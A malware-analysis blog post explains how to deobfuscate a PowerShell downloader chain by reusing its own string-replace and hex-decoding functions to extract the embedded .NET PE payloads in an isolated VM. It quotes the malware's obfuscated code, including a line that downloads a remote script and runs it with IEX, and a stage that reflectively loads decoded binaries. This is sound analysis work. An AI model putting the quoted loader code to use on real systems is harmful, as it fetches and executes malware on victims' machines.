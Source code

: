 ```yaml
---
layout: post
title: "Smarter, Not Harder: Getting Malware to Help You Analyze It"
date: 2021-09-05
categories: Malware
tags: windows malware deobfuscation powershell .net
permalink: /smarter-not-harder-malware-analysis/
---
```


When analyzing even non-advanced malware nowadays it's common to find pretty heavy levels of obfuscation within samples. PowerShell and .NET malware for Windows can be obfuscated easily using various packers/crypters or script obfuscation tools. If you know how to manipulate the malware code, however, you can use the deobfuscation capabilities of malware to reveal unpacked samples.

## Newton's Third Law (of Malware)

If you've studied Physics you've likely run across Newton's Third Law of Motion: "For every action, there is an equal and opposite reaction." The same law can be applied to obfuscated malware. When at rest or during transmission, adversaries may encrypt or encode malicious code to avoid static signatures. During execution, though, the encoding or encryption must be removed so the code can successfully load and execute.

To facilitate this process, adversaries commonly include algorithms within obfuscated code designed to remove the obfuscation at runtime. If you can focus on how the algorithm is called and used, you can use it for your own purposes!

## Safety First!

This exercise in deobfuscation requires us to execute portions of code from malware. We're not performing dynamic analysis, but there is the possibility that we might accidentally execute some malicious code. To protect against this possibility, use a virtual machine for analysis. Prior to analysis, remove any network connections and shared folders before taking a snapshot and beginning to work.

During analysis we want to identify any code designed to interpret, invoke, or execute commands so we can comment them out. We only want to execute commands designed to manipulate data and write data to files.

## A Simple Example to Start

An excellent example of using the malware code against itself can be found with this sample: <https://www.virustotal.com/gui/file/578f5dba1af809ee5b492582c38c5cf6e8bd1319fe91cc2cb0fb6066ca3c1eb9/>. This sample leads to the execution of a second sample that is more complex which we can also work with.

The original code for this sample appears similar to this:

```powershell
$1 = 'Net'+'.@@@@@@@@@@@@@$$$$$$$$$$$$$$$$$>>>>>>>>>>>>>t'.Replace('@@@@@@@@@@@@@$$$$$$$$$$$$$$$$$>>>>>>>>>>>>>',''+'Webc'+'lien')

$2 = '>>>>>>>>>>>>>>>>>>~~~~~~~~~~~~~~~~~~okE'.Replace('>>>>>>>>>>>>>>>>>>~~~~~~~~~~~~~~~~~~','InV')
$3 = 'D'+'o'+'w'+'n'+'l'+'o'+'a'+'d'+'s'+'tri'+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+'n'+'g'

I`EX((n`e`W`-Obj`E`c`T (($1))).(($3)).$2((('hxxps://raw.githubusercontent[.]com/az3r12/NYAN/main/Server.jpg')))).Replace('ooooiiiiiiiiiijhgfghjiugghjllknfderrthbbvccdssgvhhgoooooo','ForEach-Object {( [Convert]::ToInt16(([String]$_), 8) -As[Char])});sal g $t0').Replace('rxectfyvhgbuyhnikjmmnubyvbgvfcttyghuytvcxetcryvtubyjnhbgvfcdrctvuybvcrxrtyuubvtrcex','[Parameter(Mandatory=$true)] [String]$HLH').Replace('trdyjtuybiuyminubyvtcrytvybunibuyvtcrxtcytvuybiubihugyftuyiuo','New-Object -TypeName byte[] -ArgumentList ($HLH.Length / 2)').Replace('fyyfbyfyfjyfjvyhtftdvbytdvtftfbfbytf','[Convert]::ToByte($HLH.Substring($i, 2), 16)').Replace('trcymtuvybiuyvtcrtcytuyiubyvtcw4gh5djf6g7nbfvdrcsxetcrdytfbygyvcdr','{').Replace('yuuuuuuuuuuuuuuuuvgggggggggggxddddddddddzswvttttttttt','(').Replace('mbappebgfvnjjhffgjjufghiolmgfd mbappe',')')
```

In this example, the first three variables contain substrings of `Net.Webclient.DownloadString` obfuscated using string replacement and a string broken up into individual characters. This indicates PowerShell will download something from a URL. Later in the code there is a URL, so we can reasonably assume the code will download something from it. At the beginning of the final line, an `IEX` statement is slightly obfuscated using a single character. `IEX` is shorthand for `Invoke-Expression` in PowerShell, and we can assume it will execute any code downloaded from the URL.

After the `IEX` there are loads of `.Replace()` function calls. This is where the adversary manipulates data in their next stage of the chain. Presumably whatever gets executed will have junk code inside, but the junk code is replaced by real, useful code before execution. Once we retrieve the next stage into a text file, we can deobfuscate it using this code:

```powershell
$obfuscated_script = Get-Content ./Server.jpg

$deobfuscated_script = $obfuscated_script.Replace('ooooiiiiiiiiiijhgfghjiugghjllknfderrthbbvccdssgvhhgoooooo','ForEach-Object {( [Convert]::ToInt16(([String]$_), 8) -As[Char])});sal g $t0').Replace('rxectfyvhgbuyhnikjmmnubyvbgvfcttyghuytvcxetcryvtubyjnhbgvfcdrctvuybvcrxrtyuubvtrcex','[Parameter(Mandatory=$true)] [String]$HLH').Replace('trdyjtuybiuyminubyvtcrytvybunibuyvtcrxtcytvuybiubihugyftuyiuo','New-Object -TypeName byte[] -ArgumentList ($HLH.Length / 2)').Replace('fyyfbyfyfjyfjvyhtftdvbytdvtftfbfbytf','[Convert]::ToByte($HLH.Substring($i, 2), 16)').Replace('trcymtuvybiuyvtcrtcytuyiubyvtcw4gh5djf6g7nbfvdrcsxetcrdytfbygyvcdr','{').Replace('yuuuuuuuuuuuuuuuuvgggggggggggxddddddddddzswvttttttttt','(').Replace('mbappebgfvnjjhffgjjufghiolmgfd mbappe',')')

Set-Content -Path ./deobfuscated_Server.jpg.ps1 -Value $deobfuscated_script
```

In this particular case we reused the `.Replace()` function calls to make all the deobfuscation happen automatically rather than doing a manual find and replace operation for each one. This sort of efficiency can add up to a lot of saved time during analysis.

## Getting More Complex

The next stage in the chain looks something like this (except with much more hex content):

```powershell
$b1 = "111"
$b2 = "105"
$b3 = "130"
$b4 = "[String]" ; $t0=-Join (($b1, $b2, $b3  )| ForEach-Object {( [Convert]::ToInt16(([String]$_), 8) -As[Char])});sal g $t0

$b4=$TC = "4D5A9\/\/\/\/3...".replace('\/','0' )

Function HBankers {
 
    [CmdletBinding( )]
    [OutputType([byte[]] )]
    param(
        [Parameter(Mandatory=$true)] [String]$HLH 
     )
    $HHPPLL = New-Object -TypeName byte[] -ArgumentList ($HLH.Length / 2)
    for ($i = 0; $i -lt $HLH.Length; $i += 2 ) {
        $HHPPLL[$i / 2] = [Convert]::ToByte($HLH.Substring($i, 2), 16)
    }

    return [byte[]]$HHPPLL
}

[String]$HL = '4D5A9\/\/\/\/3...'.replace('\/','0' )
  
$A1 = "Ge>>>>>>>>>>>>>>>..............>>>>>>>>>>od".Replace('>>>>>>>>>>>>>>>..............>>>>>>>>>>','tMeth' )
$A2 = "g!!!!!!!!!!!!!@@@@@@@@@@@@@@@@################in".Replace('!!!!!!!!!!!!!@@@@@@@@@@@@@@@@################','et_CurrentDoma' )
$A3 = "I@@@@@@@@@@@@@@@>>>>>>>>>>>>>>..!!!!!!!!!!!!!!!!!!!!!!e".Replace('@@@@@@@@@@@@@@@>>>>>>>>>>>>>>..!!!!!!!!!!!!!!!!!!!!!!','nvok' )
$A4 = "Lo!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!".Replace('!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!','ad' )
$a7 = "$null"
$a5 = '[S!!!!!!!!!!!!!!@@@@@@@@@@@@@@!!!!!!!!!!!!!!!!^^^^^^^^^^^^^in]'.Replace('!!!!!!!!!!!!!!@@@@@@@@@@@@@@!!!!!!!!!!!!!!!!^^^^^^^^^^^^^','ystem.AppDoma' ) | g ; $a5.$A1($A2 ).$A3($a7,$null ).$A4([Byte[]](HBankers ($HL  ) ) )| g
$a8 = 'MS>>>>>>>>>>>>>.........e'.Replace('>>>>>>>>>>>>>.........','Build.ex' )

[Byte[]]$HH= HBankers $TC

[rerup]::qw5f0($a8,$HH )
```

There's a lot of fun obfuscation in this step of the chain, but I want to focus on two particular components: the hex strings starting with `4D5A`. The `4D5A` represents a traditional Windows PE header bytes that gets represented as `MZ` in ASCII. The script is shortened in this post for brevity, but examining it in [VirusTotal](https://www.virustotal.com/gui/file/ada2cd99438e9b05b8ed89dc36d4547f90436f5ef6fda2ece3c97b70b90d8bab) will show the sample contains almost 200KB of encoded text. In addition, we can see there are two `Byte[]` array structures used by the code. We can hypothesize that the two hex strings decode into Windows PE files that will eventually be held inside those byte arrays. Now, how can we make that happen?

In both the `Byte[]` array statements, the adversary references the function `HBankers()`. In addition, the declaration for this function shows it takes string input and outputs a byte array. We can reasonably assume this function performs deobfuscation, so let's use it to our advantage! We can use portions of the malware in our own script here:

```powershell
[String]$TC = "4D5A9\/\/\/\/3...".replace('\/','0' )
[String]$HL = '4D5A9\/\/\/\/3...'.replace('\/','0' )

Function HBankers {
 
    [CmdletBinding( )]
    [OutputType([byte[]] )]
    param(
        [Parameter(Mandatory=$true)] [String]$HLH 
     )
    $HHPPLL = New-Object -TypeName byte[] -ArgumentList ($HLH.Length / 2)
    for ($i = 0; $i -lt $HLH.Length; $i += 2 ) {
        $HHPPLL[$i / 2] = [Convert]::ToByte($HLH.Substring($i, 2), 16)
    }

    return [byte[]]$HHPPLL
}

[Byte[]]$deobfuscated_bin_1 = HBankers $TC
[Byte[]]$deobfuscated_bin_2 = HBankers $HL

Set-Content -Path deobfuscated_1.bin -Value $deobfuscated_bin_1 -AsByteStream
Set-Content -Path deobfuscated_2.bin -Value $deobfuscated_bin_2 -AsByteStream
```

Now we can execute the script and then take a look at the files that get created:

```text
PS /home/ForensicITGuy/NYAN> file *.bin
deobfuscated_1.bin: PE32 executable (GUI) Intel 80386 Mono/.Net assembly, for MS Windows
deobfuscated_2.bin: PE32 executable (DLL) (console) Intel 80386 Mono/.Net assembly, for MS Windows
```

And just like that, we have the PE binary payloads for additional analysis! The `HBanker()` function contained everything we needed to output a byte array into a variable, and `Set-Content` provided means for us to write that byte array to disk. Now that we have the files, we can continue analysis in the near future.